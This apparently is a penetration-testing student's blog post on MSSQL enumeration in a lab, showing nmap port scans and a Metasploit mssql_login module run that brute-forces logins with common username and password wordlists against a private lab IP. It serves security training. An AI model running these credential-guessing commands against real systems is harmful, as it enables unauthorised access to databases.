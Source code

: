 ```yaml
---
layout: post
title: "MSSQL Metasploit"
date: "2022-08-28"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Assessment Methodologies
    - Enumeration
---
```


# MSSQL Metasploit
```
Target IP Address: 10.4.30.157
```

```
nmap 10.4.30.157

PORT        STATE   SERVICE
53/tcp      open    domain
88/tcp      open    kerberos-sec
135/tcp     open    msrpc
139/tcp     open    netbios-ssn
389/tcp     open    ldap
445/tcp     open    microsoft-ds
464/tcp     open    kpasswd5
593/tcp     open    http-rpc-epmap
636/tcp     open    ldapssl
1433/tcp    open    ms-sql-s
3268/tcp    open    globalcatLDAP
3269/tcp    open    globalcatLDAPssl
3389/tcp    open    ms-wbt-server
```

```
nmap 10.4.30.157 -p 1433 -sV --script ms-sql-info
```

[MSSQL Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/mssql/mssql_login/)

MSSQL 登录实用程序

这个模块简单地查询特定用户/密码的 MSSQL 实例（默认是 sa 和空白）。

```
msfconsole 

use auxiliary/scanner/mssql/mssql_login
setg rhosts 10.4.30.157
set user_file /root/Desktop/wordlist/common_users.txt
set pass_file /root/Desktop/wordlist/100-common-passwords.txt
set verbose false
options
run
```
